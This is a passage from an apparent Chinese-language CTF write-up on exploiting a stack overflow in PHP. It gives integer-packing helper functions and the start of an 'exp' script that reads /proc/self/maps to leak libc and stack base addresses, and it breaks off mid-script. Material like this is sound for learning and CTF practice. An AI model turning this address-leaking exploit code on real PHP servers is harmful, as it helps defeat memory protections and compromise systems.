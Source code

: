 ```php
        $result |= ord($s[$x]);
    }
    return $result;
}
//int to string，再进行read的时候肯定不能读入int，因此要转变为string
function i2s($i, $x = 8) {
    $re = "";
    for($j = 0;$j < $x;$j++) {
        $re .= chr($i & 0xff);
        $i >>= 8;
    }
    return $re;
}
```

栈溢出
===

和常规一样，就是泄露方式不同，可以直接通过/proc/self/maps来泄露

exp
---

```php
<?php

function i2s($i, $x = 8) {
    $re = "";
    for($j = 0;$j < $x;$j++) {
        $re .= chr($i & 0xff);
        $i >>= 8;
    }
    return $re;
}

// 读取 /proc/self/maps 文件内容
$content = file_get_contents('/proc/self/maps');
echo $content ; //打印/proc/self/maps内容
// 函数用于解析基地址
function getBaseAddress($content, $pattern) {
    if (preg_match_all($pattern, $content, $matches)) {
        return $matches[1]; // 返回所有匹配的基地址
    }
    return null;
}

// 匹配 libc 的基地址
$libcPattern = '/^([0-9a-f]+)-[0-9a-f]+\\s+r--p\\s+.*?\\s+\\S*libc.*$/m';
$libcBaseAddresses = getBaseAddress($content, $libcPattern);

if ($libcBaseAddresses) {
    echo "libc base addresses:\n";
    foreach ($libcBaseAddresses as $address) {
        echo "0x$address\n";
        break;
    }
} else {
    echo "No libc base address found.\n";
}

// 匹配 stack 的基地址
$stackPattern = '/^([0-9a-f]+)-[0-9a-f]+\\s+rw-p\\s+.*?\\s+\\[stack\\]$/m';
$stackBaseAddresses = getBaseAddress($content, $stackPattern);

if ($stackBaseAddresses) {
```